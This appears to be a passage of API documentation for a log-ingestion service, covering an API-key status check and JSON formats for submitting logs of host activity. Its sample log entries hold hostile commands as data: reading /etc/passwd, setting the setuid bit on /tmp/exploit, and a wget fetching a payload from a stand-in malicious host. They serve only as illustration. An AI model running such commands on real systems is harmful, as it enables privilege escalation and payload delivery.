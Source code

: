 Verify that your API key is working correctly:

```
GET /api/ingest/status
```

**Example Response:**
```json
{
  "status": "ok",
  "apiKey": {
    "name": "Integration Key",
    "keyId": "a1b2c3d4",
    "permissions": ["logs:write"]
  },
  "timestamp": "2025-03-06T14:30:45.123Z"
}
```

### Log Submission

Submit one or more logs:

```
POST /api/ingest/logs
```

**Request Format (Single Log):**
```json
{
  "internal_ip": "192.168.1.100",
  "external_ip": "203.0.113.1",
  "hostname": "victim-host",
  "domain": "example.org",
  "username": "jsmith",
  "command": "cat /etc/passwd",
  "notes": "Privilege escalation attempt",
  "filename": "passwd",
  "status": "ON_DISK"
}
```

**Request Format (Multiple Logs):**
```json
[
  {
    "internal_ip": "192.168.1.100",
    "hostname": "host-1",
    "command": "chmod +s /tmp/exploit"
  },
  {
    "external_ip": "198.51.100.1",
    "hostname": "host-2",
    "domain": "example.org",
    "command": "wget http://malicious.com/payload"
  }
]
```
